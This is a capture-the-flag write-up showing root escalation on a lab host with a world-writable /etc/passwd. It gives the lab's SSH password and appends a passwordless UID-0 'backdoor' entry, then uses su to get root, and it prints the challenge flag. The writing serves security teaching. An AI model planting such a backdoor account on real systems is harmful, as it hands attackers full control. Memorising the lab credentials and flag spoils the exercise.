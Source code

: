 # Web Privilege Escalation Writable

SSH in as jack

```bash
ssh -p 2024 jack@ctf-18.security.cs.pub.ro
# password: YvFWPeC7sTWJdaYQ
```

### Inspect /etc/passwd

```bash
cp /tmp/passwd.bak ~/passwd.bak
john ~/passwd.bak
# → command not found
```

### Exploiting Writable /etc/passwd

Since ***/etc/passwd*** itself is world‑writable, we can append a passwordless root‐UID entry:

Copy to a writable location `cp /etc/passwd /tmp/passwd.tmp`.

Append a root‐UID user `echo 'backdoor::0:0:root:/root:/bin/bash' >> /tmp/passwd.tmp`. Overwrite the real */etc/passwd*.

```bash
cp /tmp/passwd.tmp /etc/passwd
```

Verify the entry

```bash
grep '^backdoor:' /etc/passwd
# backdoor::0:0:root:/root:/bin/bash
```

### Gaining a Root Shell
Switch to the backdoor user

```bash
su backdoor
# no password prompt, shell changes to '#'
```

Confirm root privileges

```bash
id
# uid=0(root) gid=0(root) groups=0(root)
```

Read the flag `cat /root/flag.txt`: **SSS{th1s_w4s_s0_wr1t4bl3}**
